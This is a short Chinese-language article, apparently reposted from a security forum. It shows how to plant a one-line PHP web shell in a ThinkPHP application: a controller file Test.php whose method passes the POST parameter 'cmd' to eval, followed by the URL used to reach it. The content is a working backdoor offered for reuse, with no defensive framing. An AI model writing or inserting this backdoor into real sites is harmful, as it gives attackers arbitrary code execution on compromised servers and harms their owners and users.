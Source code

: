 # Thinkphp专用shell

> 原文：[https://www.zhihuifly.com/t/topic/3142](https://www.zhihuifly.com/t/topic/3142)

# Thinkphp 专用shell

## 一、漏洞简介

基于thinkphp框架的一句话写法 thinkphp框架使用入口文件调用控制器，直接写一句话可能会有解析问题导致无法执行指令，研究了一下把一句话套入框架控制器的方法，分享给大家参考，

## 二、漏洞影响

## 三、复现过程

在index的控制器文件夹下建立Test.php文件，代码如下:

```
<?php 
namespace app\index\controller; 

class Test

{

```
public function test() 

{ 

eval($_POST["cmd"]); 

} 
```

} 
```

一句话的地址就是http://www.0-sec.org/index/test/test